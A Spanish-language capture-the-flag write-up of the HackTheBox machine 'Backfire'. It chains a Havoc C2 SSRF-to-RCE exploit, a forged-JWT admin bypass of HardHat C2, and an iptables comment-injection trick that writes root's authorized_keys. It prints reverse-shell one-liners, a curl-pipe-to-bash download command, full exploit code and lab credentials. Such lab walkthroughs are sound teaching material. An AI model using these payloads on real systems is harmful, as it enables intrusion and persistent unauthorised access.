>`Aviso` Este writeup es algo viejo, por lo que puede tener errores (Este mismo texto se incluira en todos los writeups que sean old)
{: .prompt-info }

Backfire es una maquina nivel medio de la plataforma de HackTheBox, en la cual se tocan dos temas interesantes en concreto, como la explotación de dos zerodays, la persistencia mediante la clave publica para ssh, entre algunas otras cosas

## nmap Enumeration

Empezaremos enumerando la maquina con un típico escaneo de nmap que constara de la siguiente forma:

```bash
❯ nmap -A -sV --min-rate 5000 -T5 -p- 10.10.11.49 -vvv --open -oN scan.txt -Pn
```

Dicho escaneo de nmap nos da el siguiente resultado a continuación:





No es el resultado mas común de ver a la hora de hacer un escaneo, ya que por lo general nos esperamos algo como una web, un servidor de red, etc... Pero en este caso, no es así, por lo que, desde el mismo nmap nos marca que el puerto 443 no tiene ninguna web, o recurso al cual solicitar desde la raíz "/" (por eso el resultado de 404). Luego tenemos un puerto ssh lo cual también es común de ver, y por ultimo, el puerto 8000 que al parecer contiene algo que nos pueda interesar. Ingresando a dicho puerto nos encontramos con lo siguiente:



Son solo dos archivos los cuales podemos descargar en nuestra maquina atacante y ver que contienen. Descargándolos y viendo un poco lo que estos traen, nos encontramos con lo siguiente:





A simple vista el que nos parece mas interesante es el `havoc.yaolt` ya que este dispone de credenciales para dos usuarios que podrían ser validos a nivel de sistema, no? Pues no, el que nos interesa es el `disable_tls.patch`, ya que dicho código nos confirma la existencia de un framework (Havoc C2) que corre de manera interna y por lo visto, al remover el cifrado de TLS  para el "Websocket Management" (El cual originalmente viene cifrado en el puerto 40056) lo expone a algunas vulnerabilidades sensibles. Como ataques MITM (Hombre en el medio), entre otros.

## Shell as ilya

Investigando en la web acerca de la aplicación "Havoc" (Que es la aplicación afectada) nos encontramos con 2 hallazgos interesantes. El primero dando prueba de que con estas configuraciones mal hechas podemos obtener un SSRF, y el segundo que se aprovecha de dicho SSRF para obtener un RCE.

### Que es un SSRF para los que no saben?

Esto no es mas que la capacidad de hacer que el servidor actué como proxy (intermediario) para nosotros como atacantes. Me explico: Al hacer una solicitud http/https por lo regular estas peticiones pasan libremente y estrictamente por el servidor, haciendo que estas peticiones cumplan con la tarea que el usuario asigno, dicho de otra forma, el usuario pide acceder al recurso `login.php`. Pues el servidor en vista de que no hay nada fuera de lo común, procede a hacer la petición sin mas. Ahora, que pasa si dicha petición no esta correctamente sanitizada, o mas bien, podemos modificar en el camino la solicitud?

De eso es que trata esta vulnerabilidad. Nosotros como atacantes le decimos en principio al servidor que como usuarios comunes hacemos una petición a X recurso, pero en medio de esa comunicación, la interceptamos y modificamos, haciendo que en vez de solicitar el recurso original, nos devuelva algo que no estaba planeado o que no esta dentro del rango de peticiones. Cosas como bases de datos, servicios internos son algunas de las cosas por las cuales podemos acceder usando al mismo servidor de intermediario.

Teniendo esto en cuenta, volvemos al primer punto. Dichos repositorios se encuentran aquí:

[Test-SSRF](https://github.com/chebuya/Havoc-C2-SSRF-poc)
[SSRF2RCE](https://github.com/thisisveryfunny/CVE-2024-41570-Havoc-C2-RCE)

Estos repositorios podemos clonarlos en nuestra maquina atacante con los siguientes comandos:

#### Test-SSRF

```bash
❯ git clone https://github.com/chebuya/Havoc-C2-SSRF-poc
Cloning into 'Havoc-C2-SSRF-poc'...
remote: Enumerating objects: 39, done.
remote: Counting objects: 100% (39/39), done.
remote: Compressing objects: 100% (35/35), done.
remote: Total 39 (delta 10), reused 0 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (39/39), 14.83 KiB | 14.83 MiB/s, done.
Resolving deltas: 100% (10/10), done.
```

#### SSRF2RCE

```bash
❯ git clone https://github.com/thisisveryfunny/CVE-2024-41570-Havoc-C2-RCE
Cloning into 'CVE-2024-41570-Havoc-C2-RCE'...
remote: Enumerating objects: 23, done.
remote: Counting objects: 100% (23/23), done.
remote: Compressing objects: 100% (19/19), done.
remote: Total 23 (delta 4), reused 0 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (23/23), 10.36 KiB | 10.36 MiB/s, done.
Resolving deltas: 100% (4/4), done.
```

Con ambos repositorios ya clonados, procedemos primero a la prueba, y dicha prueba devuelve lo siguiente en consola:



Nos da positivo de que dicho SSRF funciona, redirigiendo la peticion hacia nuestro servidor. Si esto lo juntamos con el `SSRF2RCE` nos debería de dar una shell. Pero antes de eso, necesitaremos hacer algunas cosas:

Primero nos dirigimos a la carpeta en la cual clonamos el repositorio. Dicha carpeta debería de tener el nombre de `CVE-2024-41570-Havoc-C2-RCE`.

Una vez hecho esto, instalamos las dependencias necesarias con `pip install -r requirements.txt`:

```python
❯ pip install -r requirements.txt
Defaulting to user installation because normal site-packages is not writeable
Collecting pyfiglet (from -r requirements.txt (line 1))
  Downloading pyfiglet-1.0.3-py3-none-any.whl.metadata (7.4 kB)
Requirement already satisfied: requests in /usr/lib/python3.13/site-packages (from -r requirements.txt (line 2)) (2.32.3)
Requirement already satisfied: urllib3 in /usr/lib/python3.13/site-packages (from -r requirements.txt (line 3)) (2.4.0)
Requirement already satisfied: pycryptodome in /home/unknown/.local/lib/python3.13/site-packages (from -r requirements.txt (line 4)) (3.22.0)
Requirement already satisfied: charset-normalizer<4,>=2 in /home/unknown/.local/lib/python3.13/site-packages (from requests->-r requirements.txt (line 2)) (2.0.12)
Requirement already satisfied: idna<4,>=2.5 in /usr/lib/python3.13/site-packages (from requests->-r requirements.txt (line 2)) (3.10)
Downloading pyfiglet-1.0.3-py3-none-any.whl (1.1 MB)
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 1.1/1.1 MB 1.2 MB/s eta 0:00:00
WARNING: Error parsing dependencies of wfuzz: Expected matching RIGHT_PARENTHESIS for LEFT_PARENTHESIS, after version specifier
    pyparsing (>=2.4*) ; python_version >= "3.5"
              ~~~~~~^
Installing collected packages: pyfiglet
Successfully installed pyfiglet-1.0.3
```

Una vez que instalamos las dependencias necesarias que se marcan en el `requirements.txt` modificamos el archivo `payload.sh` ya que este viene de la siguiente forma:

```bash
❯ cat payload.sh
───────┬───────────────────────────────────────────────────────────────────
       │ File: payload.sh
───────┼───────────────────────────────────────────────────────────────────
   1   │ #!/bin/bash
   2   │ 
   3   │ bash -i >& /dev/tcp/<IP>/<PORT> 0>&1 # CHANGE THIS
───────┴───────────────────────────────────────────────────────────────────
```

Aqui deberiamos poner nuestra ip atacante y el puerto por el cual deseamos recibir la shell para que quede algo asi:

```bash
❯ cat payload.sh
───────┬───────────────────────────────────────────────────────────────────
       │ File: payload.sh
───────┼───────────────────────────────────────────────────────────────────
   1   │ #!/bin/bash
   2   │ 
   3 ~ │ bash -i >& /dev/tcp/10.10.14.232/4444 0>&1
───────┴───────────────────────────────────────────────────────────────────
```

Por ultimo, modificamos el archivo `exploit.py`:

```python
USER = "USERNAME" # CHANGE THIS
PASSWORD = "PASSWORD" # CHANGE THIS
host = "<IP>" # CHANGE THIS
port = <PORT> # CHANGE THIS
websocket_request = create_websocket_request(host, port)
print("[+] Writing socket...")
write_socket(socket_id, websocket_request)
response = read_socket(socket_id)
payload = {"Body": {"Info": {"Password": hashlib.sha3_256(PASSWORD.encode()).hexdigest(), "User": USER}, "SubEvent": 3}, "Head": {"Event": 1, "OneTime": "", "Time": "18:40:17", "User": USER}}
payload_json = json.dumps(payload)
frame = build_websocket_frame(payload_json)
write_socket(socket_id, frame)
response = read_socket(socket_id)

payload = {"Body":{"Info":{"Headers":"","HostBind":"0.0.0.0","HostHeader":"","HostRotation":"round-robin","Hosts":"0.0.0.0","Name":"abc","PortBind":"443","PortConn":"443","Protocol":"Https","Proxy Enabled":"false","Secure":"true","Status":"online","Uris":"","UserAgent":"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36"},"SubEvent":1},"Head":{"Event":2,"OneTime":"","Time":"08:39:18","User": USER}}
payload_json = json.dumps(payload)
frame = build_websocket_frame(payload_json)
write_socket(socket_id, frame)
response = read_socket(socket_id)

cmd = "curl http://<IP>:<PORT>/payload.sh | bash" # CHANGE THE IP AND THE PORT
```

En todas las lineas que tiene el comentario `# CHANGE THE IP AND THE PORT` debemos cambiarlo por lo que tenemos, dígase en curl, poner la IP de nuestra maquina atacante con el puerto que aloja el `payload.sh`, etc...

Revisando los parametros de USER y PASSWORD tenemos que pues por logica ingresar unas credenciales. Que pasa? que esas credenciales ya las tenemos justo en el `havoc.yaolt` xd. Realmente cualquiera de las credenciales funcionan para el caso, ya que devolveran al mismo usuario. Entonces con esto claro, en lo personal fui con "sergej" aunque si escoges a "ilya" da lo mismo. Dicho exploit modificado nos debe quedar asi:

```python
USER = "sergej" # CHANGE THIS
PASSWORD = "1w4nt2sw1tch2h4rdh4tc2" # CHANGE THIS
host = "127.0.0.1" # CHANGE THIS
port = 40056 # CHANGE THIS
websocket_request = create_websocket_request(host, port)
print("[+] Writing socket...")
write_socket(socket_id, websocket_request)
response = read_socket(socket_id)
payload = {"Body": {"Info": {"Password": hashlib.sha3_256(PASSWORD.encode()).hexdigest(), "User": USER}, "SubEvent": 3}, "Head": {"Event": 1, "OneTime": ">
payload_json = json.dumps(payload)
frame = build_websocket_frame(payload_json)
write_socket(socket_id, frame)
response = read_socket(socket_id)

payload = {"Body":{"Info":{"Headers":"","HostBind":"0.0.0.0","HostHeader":"","HostRotation":"round-robin","Hosts":"0.0.0.0","Name":"abc","PortBind":"443",>
payload_json = json.dumps(payload)
frame = build_websocket_frame(payload_json)
write_socket(socket_id, frame)
response = read_socket(socket_id)

cmd = "curl http://10.10.14.232:8000/payload.sh | bash" # CHANGE THE IP AND THE PORT
```

Y con esto claro ejecutamos con el siguiente comando a ver que sucede:

```bash
python3 exploit.py -t https://10.10.11.49/ -i 127.0.0.1 -p 40056
```

Y nos devuelve lo siguiente:



Tenemos shell como el usuario "ilya". Pero tenemos un problema a continuación. Si dejamos la shell tal cual esta, o directamente le agregamos mas controles a través de el típico:

```bash
ctrl + c > stty raw -echo;fg > reset > export TERM=xterm
```

Esta se caerá sin importar que, ya que digamos que la maquina como tal depende de que tu clave publica este dentro de el "authorized keys" de algún usuario para así autenticarse como el sin problema. Básicamente suplantar la llave de la casa de alguien en otros términos. En este caso, preguntarte por la pass de dicho usuario).

### Creating ssh-keys for ilya

Procederemos ahora a la creación de claves rsa, las cuales nos servirán para conectarnos vía ssh sin problema. Lo hacemos con el siguiente comando:

```bash
❯ ssh-keygen
```

En mi caso le puse un nombre custom y no le puse pass (la pass no es necesaria), pero el nombre lo puedes dejar como gustes, al final siempre servirá. Dicho comando nos devuelve lo siguiente:



Nos deja nuestra clave publica, y privada. La publica es la que debemos ingresar en la maquina a través del comando:

```bash
echo "<clave publica>" >> /home/<usuario victima>/.ssh/authorized_keys
```

Mientras que la privada es la que nos servira para autenticarnos sin necesidad de pass.

Luego de esto, tendremos a mano el comando anterior junto con nuestra clave publica la cual podemos ver a traves de un simple cat:

```bash
❯ cat backfire-ilya.pub
───────┬─────────────────────────────────────────────────────────────────────────
       │ File: backfire-ilya.pub
───────┼─────────────────────────────────────────────────────────────────────────
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH/CD7MwLH5yW13EcPly7E43ol31U0KjvLdv6yYea8WI unknown@LetMeHere
───────┴─────────────────────────────────────────────────────────────────────────
```

Y posterior a esto el plan seria recibir nuevamente la shell para ingresar nuestra clave publica allí:



Y funciono. Ahora no deberíamos de preocuparnos por si se cae o pasa algo porque estamos dentro de una shell muchísimo mas estable (ssh). De paso allí tenemos la `user.txt` y ya estaría la mitad de la maquina completada:

```bash
❯ ssh -i backfire-ilya ilya@10.10.11.49
The authenticity of host '10.10.11.49 (10.10.11.49)' can`t be established.
ED25519 key fingerprint is SHA256:vKC7A11sFxQLRppUMt01q0d/DPREoskH4Aa42t0Bz9M.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.49' (ED25519) to the list of known hosts.
Linux backfire 6.1.0-29-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.123-1 (2025-01-02) x86_64
The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Jun 4 13:52:18 2025 from 10.10.16.96
ilya@backfire:~$ ls                                                                                                                                       
files  hardhat.txt  Havoc  user.txt
ilya@backfire:~$ cat user.txt 
cd35b06133faac5b81***********
ilya@backfire:~$     
```

## Port-Fowarding & Shell as sergej

Una vez obtenida la flag de user, lo que seguiría a continuación seria escalar nuestros privilegios hasta ser root. Enumerando de manera básica el sistema nos encontramos con los siguientes puertos abiertos de manera interna:



Tenemos algunos puertos interesantes, de entre los cuales se encuentran algunos como el 5000, el 7096, etc... Para nuestra suerte, ssh dispone de un parámetro para reenviar puertos de manera local el cual es el `-L`. Por lo que, saliendo de esta consola solamente ingresamos el mismo comando de ssh pero con el parámetro -L:

```bash
❯ ssh -L 8443:127.0.0.1:8443 -i backfire-ilya ilya@10.10.11.49
```

Ponemos el mismo puerto de ambos lados para evitar confusiones a futuro, aunque podemos dejar uno prefijo como el 80 (si no tenemos nada corriendo por allí) de la siguiente forma:

```bash
❯ sudo ssh -L 80:127.0.0.1:8443 -i backfire-ilya ilya@10.10.11.49
```

Porque usamos sudo? Porque por lo general el puerto 80 esta restringido. Entonces para evitar el uso de sudo, e ingresar siempre nuestra pass, recomiendo usar uno similar al 8000, o directamente la forma inicial.

Después de probar múltiples puertos sin respuesta, el que debemos de reenviarnos es el `7096`, ya que aquí es donde corre la aplicación que posteriormente, tiene OTRO zero-day explotable. 

Como nota extra. Si te paso igual que a mi que al ingresar vía localhost al puerto no te cargaba nada, intenta hacerlo via https `(https://127.0.0.1:<puerto seleccionado>)`, de esta manera te debería de cargar una web similar a esta:



En esta parte ninguna de las credenciales obtenidas al principio nos sirvió, por lo que es en esta parte donde se usa el segundo zero-day. A través de este [blog](https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7) se explica detalladamente en que consiste y como funciona. Aunque de igual forma se explicara en este writeup también, pero no de manera profunda como lo explica el blog.

Lo primero seria copiar y pegar el código proporcionado en el blog (en la seccion de POC):

```python
# @author Siam Thanat Hack Co., Ltd. (STH)  
import jwt  
import datetime  
import uuid  
import requests  
  
rhost = 'hardhatc2.local:5000'  
  
# Craft Admin JWT  
secret = "jtee43gt-6543-2iur-9422-83r5w27hgzaq"  
issuer = "hardhatc2.com"  
now = datetime.datetime.utcnow()  
  
expiration = now + datetime.timedelta(days=28)  
payload = {  
"sub": "HardHat_Admin",  
"jti": str(uuid.uuid4()),  
"http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier": "1",  
"iss": issuer,  
"aud": issuer,  
"iat": int(now.timestamp()),  
"exp": int(expiration.timestamp()),  
"http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "Administrator"  
}  
  
token = jwt.encode(payload, secret, algorithm="HS256")  
print("Generated JWT:")  
print(token)  
  
# Use Admin JWT to create a new user 'sth_pentest' as TeamLead  
burp0_url = f"https://{rhost}/Login/Register"  
burp0_headers = {  
"Authorization": f"Bearer {token}",  
"Content-Type": "application/json"  
}  
burp0_json = {  
"password": "sth_pentest",  
"role": "TeamLead",  
"username": "sth_pentest"  
}  
r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, verify=False)  
print(r.text)
```

Aqui debemos modificar un apartado y hacer otra cosa antes de ejecutarlo.

Lo primero que debemos hacer es reenviarnos otro puerto a traves de ssh el cual es el 5000. Y el segundo es modificar esto en el codigo:

`rhost = 'hardhatc2.local:5000'`

Cambiando la url de esta variable (hardhatc2.local) a la 127.0.0.1 nos deberia de funcionar el exploit, claro, tambien si teniamos previamente el puerto 5000 reenviado a nuestra maquina atacante. En mi caso al ejecutarlo me saltaba que muchos errores, asi que para remediar eso, lo unico que hice fue agregarle al comando lo siguiente:

```bash
python3 exploit.py 2>/dev/null
```

Dicho comando posteriormente nos deberia dar el siguiente resultado en consola:



En mi caso me salio el error de "User creation failed" porque ya lo tengo. Pero en tu caso, te deberia de dar lo siguiente mas bien:

`User sth_pentest created`

Si te sale esto, enhorabuena, vas por buen camino. Ahora solo seria probar las credenciales de `sth_pentest`/`sth_pentest` y ver si nos deja acceder al panel:



Si todo salio bien nos debería dar esto. Ahora siguiendo el mismo blog, debemos ir a la siguiente sección:



Y justo allí, darle click al botón de "Terminal" para que nos arroje una shell desde la web:



Creamos una shell nueva y probamos el comando whoami:



De forma indirecta tenemos shell como "sergej". Ahora que podemos hacer? Lo mejor seria obtener una reverse shell para posterior a esto, ingresar allí nuestra clave publica (podemos usar la misma que creamos, no afecta en nada. Al contrario) de la misma forma que hicimos con ilya.

Usare una reverse shell básica para la tarea de revshells.com la cual es la siguiente:

```bash
sh -i >& /dev/tcp/10.10.14.232/4444 0>&1
```

Esta nos debería de servir de sobra para la tarea. Una vez tengamos el comando, simplemente entramos a la consola de la web, nos ponemos en escucha y esperamos. Esto nos da lo siguiente:



Si recibiste una conexión a través del puerto que especificaste, enhorabuena, vas por buen camino. ahora toca introducir nuestra clave publica en el authorized keys de sergej de la misma forma que hicimos con ilya:



En mi caso aparecen 3 porque había intentado hacer lo mismo pero desde la consola que ofrece la web. Pero básicamente es el mismo proceso, no afecta en nada así que sigamos.

Una vez ingresada nuestra clave publica en el authorized keys de sergej, procedemos a conectarnos vía ssh de la misma forma que lo hicimos con ilya con el mismo comando que usamos. Solo que esta vez se le cambiara el usuario a sergej:

```bash
❯ ssh -i backfire-ilya sergej@10.10.11.49
```



Y como mencione, funciono. Ahora podríamos verificar si podemos ejecutar algún comando como sudo sin proporcionar password (de por si ya es una mala practica):



Tenemos que podemos ejecutar como sudo sin problemas el comando `iptables` y el comando `iptables-save`. Investigando el como nos podemos aprovechar de esto, tenemos el siguiente [blog](https://www.shielder.com/blog/2024/09/a-journey-from-sudo-iptables-to-local-privilege-escalation/)  que nos da una idea de como nos podemos aprovechar de el privilegio que tenemos. El detalle es que al estar "configurado", pues no nos permite ingresar un nuevo valor en /etc/shadow o parecido. Por lo que aquí se usa un poco la lógica. Si los anteriores usuarios los hemos pwneado de la misma forma, ingresando nuestra clave publica en sus authorized keys, porque no funcionaria con el root? Aprovechando que también poseemos el comando de `iptables-save`. Por lo que, la escalada a root seria con los siguientes comando:

```bash
sergej@backfire:~$ sudo iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\nssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH/CD7MwLH5yW13EcPly7E43ol31U0KjvLdv6yYea8WI unknown@LetMeHere\n'
sergej@backfire:~$ sudo iptables -S
-P INPUT ACCEPT
-P FORWARD ACCEPT
-P OUTPUT ACCEPT
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 5000 -j ACCEPT
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 5000 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 5000 -j REJECT --reject-with icmp-port-unreachable
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 7096 -j ACCEPT
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 7096 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 7096 -j REJECT --reject-with icmp-port-unreachable
-A INPUT -i lo -m comment --comment "
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH/CD7MwLH5yW13EcPly7E43ol31U0KjvLdv6yYea8WI unknown@LetMeHere
" -j ACCEPT
sergej@backfire:~$ sudo iptables-save -f /root/.ssh/authorized_keys
```

Porque esto tiene potencial de funcionar? Tal como dice en el blog:

"Al aprovechar comentarios arbitrarios que contienen `\n` vía `iptables` y ejecutar `iptables-save`, podemos escribir archivos arbitrarios como `root`, y controlamos parcialmente sus líneas (parcialmente, sí, porque `iptables-save` genera algunos datos que no se pueden controlar) antes y después de nuestro comentario inyectado."

Entonces básicamente a raíz de esto, ssh al obtener un nuevo authorized keys (el cual nosotros mismos inyectamos) pues ignorara todo lo que no tenga formato de clave publica o parecido, aceptando la clave publica que nosotros habíamos puesto previamente.

Dicho y hecho nos da lo siguiente:



Tenemos shell de root. Y así se concluye la maquina backfire. Gracias por leer hasta aquí, ten feliz día/tarde/noche :)